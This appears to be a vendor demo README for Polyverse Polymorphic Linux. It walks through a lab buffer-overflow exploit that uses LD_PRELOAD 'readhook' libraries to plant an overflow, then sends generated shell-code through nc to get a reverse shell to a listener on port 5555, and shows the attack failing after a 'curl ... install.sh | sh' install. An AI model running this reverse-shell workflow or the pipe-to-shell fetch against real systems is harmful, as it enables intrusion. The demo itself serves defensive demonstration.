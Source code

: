 # Demonstration: Polyverse Polymorphic Linux
## Set up for a Reverse Shell
### (1) Start nc listening on port 5555 (Session-1)
```
nc -kl 5555
```
## Run a simple socat echo server under Readhook
### (2) Start with a clean alpine:3.7 (Session-2)
```
docker run --rm -it -p 8080:8080 alpine:3.7 sh
```
### (2) We'll need curl and wget
#### (2) Alpine
```
apk update && apk add curl socat wget
```
#### (2) CentOS
```
yum update -u && yum install -y curl nc socat wget
```
#### (2) Ubuntu
```
apt-get update -y && apt-get install -y curl netcat socat wget
```
### (2) Get readhook components
```
wget -q -O /tmp/basehook.so https://github.com/polyverse/readhook/releases/download/v1.2.2/basehook.so
wget -q -O /tmp/fullhook.so https://github.com/polyverse/readhook/releases/download/v1.2.2/fullhook.so
```
### (2) Start socat with readhook in front of libc
socat -T600 TCP4-LISTEN:8080,reuseaddr SYSTEM:"/usr/bin/env LD_PRELOAD='/tmp/fullhook.so:/tmp/basehook.so' /bin/cat"
## Generate Shell-Code and Perform Exploit
### (3) Generate shell-code for the exploit (Session-3)
```
export shellCode=$(echo "xyzzxMAKELOADdocker.for.mac.localhost" | nc localhost 8080)
```
### (2) Re-start socat with minimal readhook in front of libc
```
socat -T600 TCP4-LISTEN:8080,reuseaddr SYSTEM:"/usr/bin/env LD_PRELOAD=/tmp/basehook.so /bin/cat"
```
### (3) Send shell-code to the OVERFLOW for a reverse shell
```
echo $shellCode | nc localhost 8080
```
### (1) Check that the overflow resulted in a remote shell
```
ls && whoami && exit
```
## Install Polyverse Polymorphic Linux
### (2) Add Polyverse as the preferred repository
```
curl https://repo.polyverse.io/install.sh | sh -s vZ2v3Bo4Kbnwj9pECrLsoGDDo
```
### (2) Replace standard packages with Polymorphic Linux
```
# (Execute the command given at the end of the previous step)
```
## Test Polyverse Polymorphic Linux
### (2) Re-start nc with minimal readhook
```
socat -T600 TCP4-LISTEN:8080,reuseaddr SYSTEM:"/usr/bin/env LD_PRELOAD=/tmp/basehook.so /bin/cat"
```
### (3) Try the shellCode with Polymorphic Linux
```
echo $shellCode | nc localhost 8080
```
### (1) Confirm that nobody phoned-home to the listener
### (2) Confirm that the server terminated abnormally
